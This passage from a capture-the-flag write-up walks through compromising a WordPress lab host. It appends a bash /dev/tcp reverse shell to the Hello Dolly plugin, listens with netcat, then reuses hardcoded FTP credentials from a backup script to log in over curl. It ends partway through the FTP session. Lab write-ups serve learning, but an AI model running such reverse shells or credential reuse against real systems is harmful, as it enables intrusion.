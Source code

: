 Reverse shell
Now connected as jeff (who is admin BTW), we should be able to get a reverse shell.

Unfortunately, we can’t modify the 404.php template from the “Theme Editor” because of the following error:

Something went wrong. Your change may not have been saved. Please try again. There is also a chance that you may need to manually fix and upload the file over FTP.
Let’s try with the plugins. Go to “Plugins > PluginEditor” from the menu. From the dropdown on the right hand side, select “Hello Dolly” and click on the “Select” button. It will show the code for the hello.php template. Append the following content to the file and click on the “Update file” button.

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.50.72/4444 0>&1'");
Now, open a listener (rlwrap nc -nlvp 4444) and activate the plugin (“Plugins > Installed plugins”).

We now have a reverse shell.

Docker evasion
It turns out that we land in a docker container, what is confirmed by leanpeas.sh.

After trying to evade docker and failing due to a lack of permission to execute docker, I decided to exploit something else.

There is an interesting ftp_backup.php script under /var/www/html/:

<?php
/* 
    Todo: I need to finish coding this database backup script.
    also maybe convert it to a wordpress plugin in the future.
*/
$dbFile = 'db_backup/backup.sql';
$ftpFile = 'backup.sql';

$username = "backupmgr";
$password = "SuperS1ckP4ssw0rd123!";

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");
}

$msg = "Upload failed";
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {
    $msg = "$file was uploaded.\n";
}

echo $msg;
ftp_close($conn_id);
Running it will display the error message “Upload failed”, which is a sign that the authentication was successful. Unfortunately, ftp, nc or telnet are not available in the container and we have to use curl (make sure you use the -P - flag to force the active mode).

www-data@Jeff:/var/www/html/wp-admin$ curl -s -v -P - 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/'
<'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/'
* Expire in 0 ms for 6 (transfer 0x55e170f67f50)
*   Trying 172.20.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x55e170f67f50)
* Connected to 172.20.0.1 (172.20.0.1) port 21 (#0)
< 220 Welcome to Jeff's FTP service.
> USER backupmgr
< 331 Please specify the password.
> PASS SuperS1ckP4ssw0rd123!
< 230 Login successful.
> PWD
< 257 "/" is the current directory